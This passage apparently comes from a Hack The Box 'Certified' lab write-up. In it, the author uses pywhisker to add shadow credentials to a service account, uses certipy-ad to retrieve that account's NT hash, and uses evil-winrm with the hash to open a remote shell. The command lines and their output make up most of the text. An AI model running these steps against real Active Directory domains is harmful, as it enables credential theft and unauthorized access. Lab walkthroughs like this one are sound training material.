 Now we can add shadow credentials to `management_svc`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ python3 ~/Tools/pywhisker/pywhisker/pywhisker.py -d certified.htb -u judith.mader -p judith09 --target management_svc --action add
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: cc1e7d84-aa27-17a2-050d-47e1d67c2bc5
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 8bzI0Q6B.pfx
[+] PFX exportiert nach: 8bzI0Q6B.pfx
[i] Passwort für PFX: l4V8gaMAGqje9YLy2wSz
[+] Saved PFX (#PKCS12) certificate & key at path: 8bzI0Q6B.pfx
[*] Must be used with password: l4V8gaMAGqje9YLy2wSz
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

And use it to obtain NTLM hash.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ certipy-ad cert -export -pfx 8bzI0Q6B.pfx -password l4V8gaMAGqje9YLy2wSz -out management_svc.pfx && \
certipy-ad auth -pfx management_svc.pfx -username management_svc -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing PFX to 'management_svc.pfx'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: management_svc@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Got hash for 'management_svc@certified.htb': aad3b435b51404eeaad3b435b51404ee:a091c1832bcdd4677c28b5a6a1295584
```

With `management_svc` hash we could try to get shell using remote management.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ evil-winrm -i certified.htb -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents>
```
